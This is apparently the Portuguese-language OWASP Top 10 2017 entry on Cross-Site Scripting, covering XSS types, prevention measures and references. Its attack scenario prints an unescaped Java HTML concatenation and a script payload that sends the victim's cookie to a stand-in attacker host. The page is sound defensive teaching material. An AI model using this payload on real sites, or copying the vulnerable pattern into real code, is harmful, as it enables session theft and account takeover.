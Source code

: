 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de ataque | Vulnerabilidade de Segurança | Impactos |
| -- | -- | -- |
| Nível de acesso \| Abuso 3 | Prevalência 3 \| Deteção 3 | Técnico 2 \| Negócio |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com malware. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML da resposta sem que estes tenham sido validados e/ou os
  caracteres especiais tratados (escaping). Um ataque bem sucedido pode permitir
  a execução de código HTML e JavaScript no navegador da vítima. Normalmente a
  vítima segue um endereço malicioso para uma página controlada pelo atacante
  tal como watering hole websites, publicidade ou algo semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (sanitization) os quais serão mais tarde acedidos por outro
  utilizador ou administrador. Este tipo de XSS é considerado de risco alto ou
  crítico.
* **DOM XSS** : Tipicamente as frameworks JavaScript, Single Page Applications
  (SPA) e APIs que incluem na página, de forma dinâmica, informação controlada
  pelo atacante, são vulneráveis a DOM XSS. Idealmente a aplicação não enviaria
  informação controlada pelo atacante para as APIs JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de múltiplo fator (MFA),
alteração do DOM por substituição ou alteração de nós (e.g. formulários),
ataques contra o navegador do utilizador tais como o download de software
malicioso, key logging entre outros.

## Como Prevenir

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
ativo do navegador. Isto é conseguido através da:

* Utilização de frameworks que ofereçam nativamente protecção para XSS tais como
  as versões mais recentes de Ruby on Rails e React JS. É preciso conhecer as
  limitações destes mecanismos de proteção por forma a tratar de forma adequada
  os casos não cobertos.
* Tratamento adequado (escaping) da informação não confiável no pedido HTTP
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL) resolve as vulnerabilidades Reflected e
  Stored XSS. Detalhes sobre como tratar esta informação estão no [OWASP Cheat
  Sheet 'XSS Prevention'][1].
* Aplicação de codificação de caracteres adequada ao contexto de utilização
  aquando da modificação da página no lado do cliente previne DOM XSS. Quando
  isto não é possível, podem utilizar-se algumas das técnicas referidas no
  documento [OWASP Cheat Sheet 'DOM based XSS Prevention'][9].
* Adição de [Content Security Policy (CSP)][2] enquanto medida de mitigação de
  XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. path traversal overwrites ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou _escaping_:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery (CSRF)][3].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][4]
* [OWASP Proactive Controls: Validate Data][4]
* [OWASP Application Security Verification Standard: V5][5]
* [OWASP Testing Guide: Testing for Reflected XSS][6]
* [OWASP Testing Guide: Testing for Stored XSS][7]
* [OWASP Testing Guide: Testing for DOM XSS][8]
* [OWASP Cheat Sheet: XSS Prevention][1]
* [OWASP Cheat Sheet: DOM based XSS Prevention][9]
* [OWASP Cheat Sheet: XSS Filter Evasion][10]
* [OWASP Java Encoder Project][11]

### Externas

* [CWE-79: Improper neutralization of user supplied input][12]
* [PortSwigger: Client-side template injection][13]

[1]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[2]: https://developer.mozilla.org/pt-PT/docs/Web/HTTP/CSP
[3]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[4]: https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[5]: https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project
[6]: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)
[7]: https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[8]: https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
[9]: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[10]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[11]: https://www.owasp.org/index.php/OWASP_Java_Encoder_Project
[12]: https://cwe.mitre.org/data/definitions/79.html
[13]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection

